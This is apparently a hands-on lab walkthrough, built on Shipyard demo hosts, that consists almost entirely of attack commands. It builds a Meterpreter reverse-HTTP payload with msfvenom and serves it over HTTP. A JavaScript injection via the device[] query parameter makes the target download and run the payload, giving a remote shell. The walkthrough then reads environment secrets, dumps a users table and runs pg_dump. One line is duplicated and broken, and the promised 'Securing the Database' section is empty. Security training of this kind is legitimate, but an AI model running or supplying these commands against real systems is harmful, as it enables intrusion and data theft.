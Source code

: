 # Execute Hack

## Run script to check for vulnerability

```shell
scan
```

## Create payload
```shell
msfvenom -p linux/x86/meterpreter_reverse_http LHOST=$(dig +short kali.container.shipyard.run) LPORT=9999 -f elf > payload
```

```shell
chmod +x
```

```shell
./payload
```

```shell
python3 -m http.server &> /dev/null &
```

```shell
msfconsole
```

## Start reverse handler
```shell
db_status
```

```shell
use exploit/multi/handler
```

```shell
set PAYLOAD linux/x86/meterpreter_reverse_http
```

```shell
set LHOST 0.0.0.0
```

```shell
set LPORT 9999
```

```shell
run
```

## Execute hack

```shell
curl "search-http.ingress.shipyard.run:9090?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27curl+10.5.0.2:8000/payload+-o+payload%27)-%27"
```

```shell
curl "search-http.ingress.shipyard.run:9090?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27chmod+%2Bx+payload%27)-%27"
```

```shell
curl "search-http.ingress.shipyard.run:9090?device[]=x&device[]=y%27-require(%27child_process%27).exec(%27./payload%27)-%27"
```

```shell
pwd
```

```shell
getuid
```

```shell
ps
```

```shell
run post/linux/gather/enum_system
```

```shell
shell
```

## Abuse host
```shell
env
```

```shell
apt update && apt install -y postgresql-client
```

```shell
PGPASSWORD=$DATABASE_PASSWORD psql -h $DATABASE_SERVICE_HOST -p $DATABASE_SERVICE_PORT -U $DATABASE_USER -w -d $DATABASE_NAME
```

```shell
\l
```

```shell
\du+
```

```shell
\d
```

```shell
SELECT * FROM users;
```

```shell
PGPASSWORD=$DATABASE_PASSWORD pg_dump -h $DATABASE_SERVICE_HOST -p $DATABASE_SERVICE_PORT -U $DATABASE_USER -w root
$DATABASE_SERVICE_PORT -U $DATABASE_USER -w root
```

# Securing the Database

```shell

```
